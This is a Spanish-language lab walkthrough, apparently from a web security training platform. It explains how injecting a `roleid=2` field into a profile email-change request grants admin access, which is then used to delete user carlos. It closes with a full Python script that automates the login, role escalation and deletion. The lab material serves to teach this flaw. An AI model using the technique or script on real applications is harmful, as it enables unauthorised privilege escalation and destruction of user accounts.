 # Lab: User role can be modified in user profile

This lab has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of 2.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---


Una vez que iniciamos sesión con nuestro usuario, nos dirigimos al recurso `/admin` y recibimos la siguiente respuesta:
![image](https://github.com/user-attachments/assets/c0e85c3d-1a2f-4bba-b11b-eac739d3b3b6)

Inspeccionamos todas las funcionalidades en búsqueda de transacción de parámetros y, eventualmente la posibilidad de inyección del parámetro `roleid`.
En el endpoint `/my-account` manejamos parámetros cuando solicitamos con un GET
![image](https://github.com/user-attachments/assets/ca14b5df-010c-4cf3-ac20-ba643df1ec3b)

Cuando solicitamos la funcionalidad de cambio de email vemos lo siguiente:
![image](https://github.com/user-attachments/assets/94860afc-cac9-43f8-9674-dc8627e99265)
Intentamos inyectar el parámetro `roleid=2`:
![image](https://github.com/user-attachments/assets/87003534-c57a-4444-9ced-24614c319485)

Solicitamos con éxito el recurso `/admin`:
![image](https://github.com/user-attachments/assets/d4c830bf-1c34-49cf-bed3-85784c52a03c)

Eliminamos al usuario carlos y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/2009d6c5-2da0-4089-9007-af74f9e65b51)

![image](https://github.com/user-attachments/assets/4585b6be-f4f1-497d-aa66-f62d09be83f1)

---

We can also perform the following python script to resolve the lab:
```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(s, url):

    # login as the wiener user
    login_url = url + "/login"
    data_login = {"username": "wiener", "password": "peter"}
    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user.")

        # Change the role id of the user
        change_email_url = url + "/my-account/change-email"
        data_role_change = {"email":"test@test.ca", "roleid": 2}
        r = s.post(change_email_url, json=data_role_change, verify=False, proxies=proxies)
        res = r.text
        if 'Admin' in res:
            print("(+) Successfully changed the role id.")

            # Delete the Carlos user
            delete_carlos_user_url = url + "/admin/delete?username=carlos"
            r = s.get(delete_carlos_user_url, verify=False, proxies=proxies)

            if r.status_code == 200:
                print("(+) Successfully delete Carlos user.")
            else:
                print("(-) Could not delete Carlos user.")
                sys.exit(-1)
        else:
            print("(-) Could not change the role id.")
            sys.exit(-1)
    else:
        print("(-) Could not login as the wiener user.")
        sys.exit(-1)



def main():
    if len(sys.argv) != 2:
        print("Usage: %s <url>" % sys.argv[0])
        print("Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    delete_user(s, url)


    

if __name__ == "__main__":
    main()
```
